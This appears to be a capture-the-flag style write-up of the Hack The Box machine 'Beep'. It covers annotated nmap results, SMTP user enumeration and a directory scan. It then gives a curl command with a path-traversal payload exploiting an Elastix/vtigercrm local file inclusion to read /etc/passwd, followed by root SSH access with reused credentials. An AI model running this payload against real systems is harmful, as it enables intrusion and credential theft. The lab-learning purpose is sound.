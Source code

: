 # Beep

So, on initial nmap scan, we see a lot of ports open, so lets go through each of them in order, keeping http at last, since it probably has a wider attack surface

So, the smaller services enumeration has been done, and I've added the notes for these services in the below scan result inline, after this lets get into doing this for HTTP.

```text
srinivas@ubuntu:~/htb/beep$ cat beep.nmap 
# Nmap 7.80 scan initiated Sun Aug  1 12:34:26 2021 as: nmap -sS -sV -sC -oN beep.nmap 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.10s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
# some denial of service vulnerability here, nothing major

25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
# we can do user enumeration or something here, lets try that
# ran a smtp nmap scripts in the background, lets comeback here later
# perl -X smtp-user-enum.pl -M VRFY -U names.txt -t 10.10.10.7 - not much we got from here

80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS) # says this is centos
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL USER EXPIRE(NEVER) LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) APOP TOP STLS AUTH-RESP-CODE PIPELINING RESP-CODES
# none of these versions seem to be vulnerable or anything

111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: QUOTA IMAP4rev1 MULTIAPPEND UIDPLUS NO OK ATOMIC ID RIGHTS=kxte X-NETSCAPE LIST-SUBSCRIBED IMAP4 LISTEXT ACL IDLE THREAD=REFERENCES LITERAL+ CHILDREN NAMESPACE BINARY RENAME THREAD=ORDEREDSUBJECT UNSELECT ANNOTATEMORE SORT SORT=MODSEQ MAILBOX-REFERRALS STARTTLS CONDSTORE URLAUTHA0001 CATENATE Completed
# to do this as well

443/tcp   open  ssl/https?
|_ssl-date: 2021-08-01T19:37:45+00:00; -1s from scanner time.

880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
# take a look if nothing works

10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
# looks like if we get some creds this would work

Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: -1s
```

So, the web server says that it supports a lower version of TLS, so lets try to get our browser to work with the lower versions of TLS. to do that, we need to change the TLS min version in firefox, which we can obtain how to do if we do a quick google on that. 

we have quite some hits from the ffuf scan we did on the server after we enabled lower TLS versions from the command line. lets go through them

```text
# nothing much under here just some static php files
https://beep.localdomain/configs/

# similar above result for /robots.txt, /var/backups/, /var/cache/

# going on this show us that we are on some sort of mail server
# this has some stuff in EDB, but nothing major just some XSS related
https://beep.localdomain/mail/

# and if we look at the headers we obtain from this results, it clues us that
# it is a software called elastix - elastixSession=to9j1kqfdh6356er8b7b5h0d36

https://www.exploit-db.com/exploits/37637 - elastix LFI, we get to read some files
so we got an user called fanis from here, lets add him and root to our users file
curl https://beep.localdomain/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00\&module=Accounts\&action -k
```

I try to read some more files, but no luck at here, so I've looked at the example conf file thats given in the EDB POC, which seems to have some interesting data and bingo, it has a bunch of usernames and password, although most of the passwords looks like they are one and same. Now I try to run Hydra, but it doesn't give us anything because of the older ssh version.

manually doing ssh after adding the following in the ~/.ssh/config file worked and we are root

```text
Host 10.10.10.7
    Ciphers 3des-cbc
    KexAlgorithms +diffie-hellman-group1-sha1
```

